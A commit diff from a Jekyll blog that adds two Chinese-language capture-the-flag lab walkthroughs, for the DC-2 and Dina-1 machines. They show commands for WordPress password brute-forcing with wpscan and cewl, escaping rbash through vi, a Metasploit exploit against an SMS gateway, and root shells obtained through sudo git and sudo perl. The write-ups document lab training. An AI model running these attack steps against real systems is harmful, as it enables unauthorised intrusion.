

Before and after one commit to Kyon-H/kyon-h.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Auto-sync

````diff
--- /dev/null
+++ b/_posts/2025-07-08-DC-2.md
@@ -0,0 +1,79 @@
+---
+layout: post
+title: 2025-07-08-DC-2
+subtitle: 2025-07-08-DC-2
+date: 2025-07-08 09:27
+author: Kyon-H
+header-img: img/post-bg-2015.jpg
+tags:
+  - 靶场实战
+published: true
+---
+主机发现
+
+![Pasted%20image%2020250708092821.png300](https://img.ghostliner.top/JuHdN2.png)
+
+发现`192.168.163.131`，端口扫描
+![Pasted%20image%2020250708092929.png300](https://img.ghostliner.top/siB1ce.png)
+
+访问80端口，被重定向到 http://DC-2 ，修改hosts即可访问
+
+目录扫描，发现wp-admin后台登陆路径
+
+访问站点，获取到flag1，按提示使用cewl
+![Pasted%20image%2020250708093111.png300](https://img.ghostliner.top/8nOtgC.png)
+
+```shell
+cewl http://dc-2/wp-login.php -w pass.txt
+wpscan --url http://dc-2/ -e u
+# admin jerry tom
+echo -e "admin\njerry\ntom" > user.txt
+wpscan --url http://DC-2 -e -U user.txt -P pass.txt
+# Username: jerry, Password: adipiscing
+# Username: tom, Password: parturient
+```
+
+![Pasted%20image%2020250708100011.png300](https://img.ghostliner.top/6uYNfN.png)
+
+![Pasted%20image%2020250708095958.png300](https://img.ghostliner.top/1iq7uw.png)
+
+```shell
+ssh tom@DC-2 -p 7744
+compgen -c
+vi flag3.txt
+```
+
+获取flag3
+
+![Pasted%20image%2020250708100605.png300](https://img.ghostliner.top/fAT1Xa.png)
+
+rbash提权
+
+```shell
+vi flag3.php
+:set shell=/bin/sh
+:shell
+```
+
+进入sh
+
+```shell
+export PATH=$PATH:/bin
+su jerry
+# 输入密码
+```
+
+获取flag4
+
+![image.png300](https://img.ghostliner.top/g9FLWN.png)
+
+```shell
+sudo -l
+# 显示：(root) NOPASSWD: /usr/bin/git
+sudo git help config
+!/bin/bash
+```
+
+提权到root用户，获取flag5
+
+![image.png300](https://img.ghostliner.top/7JcS8d.png)
--- /dev/null
+++ b/_posts/2025-07-08-Dina-1.md
@@ -0,0 +1,66 @@
+---
+layout: post
+title: 2025-07-08-Dina-1
+subtitle: 2025-07-08-Dina-1
+date: 2025-07-08 10:55
+author: Kyon-H
+header-img: img/post-bg-2015.jpg
+tags:
+  - 靶场实战
+published: true
+---
+主机发现
+
+```shell
+sudo arp-scan -l
+```
+
+![image.png300](https://img.ghostliner.top/lLgUbT.png)
+
+```shell
+nmap -T4 -A -p- 192.168.163.133
+```
+
+![image.png300](https://img.ghostliner.top/A2HyBe.png)
+
+只有80端口，访问网站，目录扫描，扫描到`robots.txt` secure目录
+![image.png300](https://img.ghostliner.top/Lsk2KW.png)
+
+`/nothing`  发现密码 `my secret pass freedom password helloworld! diana iloveroot`
+![image.png300](https://img.ghostliner.top/ppisSE.png)
+
+下载 http://192.168.163.133/secure/backup.zip
+
+使用密码 `freedom` 成功解压
+![image.png300](https://img.ghostliner.top/iQNEDt.png)
+
+访问 `/SecreTSMSgatwayLogin` 登陆用户名：touhid 密码：diana
+
+浏览网站发现`send from file`页面可以上传文件，上传木马显示成功，但未找到
+
+```shell
+# 扫描网站框架
+whatweb -v http://192.168.163.133/SecreTSMSgatwayLogin/
+```
+
+![image.png300](https://img.ghostliner.top/BuPbjv.png)
+
+msf搜索相关漏洞，选择0
+![image.png300](https://img.ghostliner.top/TDlxDk.png)
+
+```shell
+options
+set rhosts 192.168.163.133
+set lhost 192.168.163.132
+set username touhid
+set password diana
+set TARGETURI http://192.168.163.133/SecreTSMSgatwayLogin/
+```
+
+![image.png300](https://img.ghostliner.top/XVCPJ6.png)
+
+```shell
+sudo perl -e 'exec "/bin/bash";'
+```
+
+![image.png300](https://img.ghostliner.top/RSWciW.png)
````
Also changed, not shown: _posts/2025-07-06-常见漏洞.md (+2 -0 lines), _posts/2025-07-07-DC-1.md (+7 -3 lines), _posts/2025-07-07-JIS-CTF.md (+2 -0 lines).
